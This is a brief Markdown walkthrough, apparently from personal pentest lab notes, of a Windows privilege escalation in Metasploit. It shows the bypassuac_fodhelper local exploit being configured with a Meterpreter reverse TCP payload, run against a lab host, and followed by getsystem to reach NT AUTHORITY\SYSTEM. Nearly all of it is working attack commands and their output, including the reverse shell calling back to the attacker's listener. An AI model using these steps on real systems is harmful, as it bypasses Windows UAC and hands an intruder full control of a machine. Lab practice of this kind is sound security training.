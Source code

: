 	- `exploit/windows/local/bypassuac_fodhelper`

---

## Privilege Excalation with bypassuac_fodhelper
```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/bypassuac_fodhelper
msf6 exploit(windows/local/bypassuac_fodhelper) > show options 
Module options (exploit/windows/local/bypassuac_fodhelper):

   Name     Current Settin  Required  Description
            g
   ----     --------------  --------  -----------
   SESSION                  yes       The session to run thi
                                      s module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Settin  Required  Description
             g
   ----      --------------  --------  -----------
   EXITFUNC  process         yes       Exit technique (Accep
                                       ted: '', seh, thread,
                                        process, none)
   LHOST     10.0.2.4        yes       The listen address (a
                                       n interface may be sp
                                       ecified)
   LPORT     4444            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86

msf6 exploit(windows/local/bypassuac_fodhelper) > set session 1

msf6 exploit(windows/local/bypassuac_fodhelper) > run

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\Sysnative\cmd.exe /c C:\Windows\System32\fodhelper.exe
[*] Sending stage (175686 bytes) to 10.0.2.15
[*] Meterpreter session 2 opened (10.0.2.4:4444 -> 10.0.2.15:50163) at 2025-05-14 13:50:48 -0400
[*] Cleaining up registry keys ...

meterpreter > getuid
Server username: DESKTOP-3UTST7A\liang
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

---
